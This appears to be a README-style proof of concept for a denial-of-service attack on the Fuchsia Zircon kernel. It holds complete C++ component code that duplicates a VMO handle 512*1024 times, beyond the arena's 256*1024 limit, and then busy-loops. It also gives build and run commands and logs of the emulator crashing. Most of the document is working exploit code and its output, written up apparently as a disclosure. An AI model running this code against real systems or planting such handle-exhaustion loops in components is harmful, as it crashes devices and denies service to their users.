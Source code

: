 # Dos on Fuchsia

May only take you 1 min.

## Set-up


Replace "/examples/hello_world/cpp/helloworld.cc" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 512\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

    #include  <zircon/syscalls.h>
	#include  <iostream>
	#define  max_num  512*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		std::cout  <<  "Hello, Worldddddd!\n";
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
    
   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   

    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}

## Run

Open four terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --cache --with //example/hello_world
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 4
	

   ```
$ ffx component run fuchsia-pkg://fuchsia.com/hello-world#meta/hello-world-cpp.cm
```

## Result
Warnning in Terminal 2, on my machine the FEMU will crash.

Terminal 1
```

$ ssh: Could not resolve hostname : Temporary failure in name resolution
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host

```

If you set the 'max_num' value to a small value like 10 in hello_world.cc, the FEMU can still work with the hello_world component. It means that it's feasible to  Dos attack the zircon kernel by loading malicious components. 

```
PID      TID        TIME%  CPU STATE NAME
59937    59939      99.99    3   run hello-world-cpp.cm:initial-thread
26905    26907       0.46    0 block ptysvc.cm:initial-thread
36894    37138       0.45    0 block netstack.cmx:pthread_t:0x18720985b18
 6658     7948       0.43    2 block driver_host:composite-device:virtio-net-irq-worker
54060    54062       0.38    2 block /pkg/bin/sshd:initial-thread
77419    77421       0.36    0   run top:initial-thread
36894    37148       0.35    2 block netstack.cmx:pthread_t:0x90d20f1b18
36894    37161       0.27    2 block netstack.cmx:pthread_t:0x1e2b9737b18

```
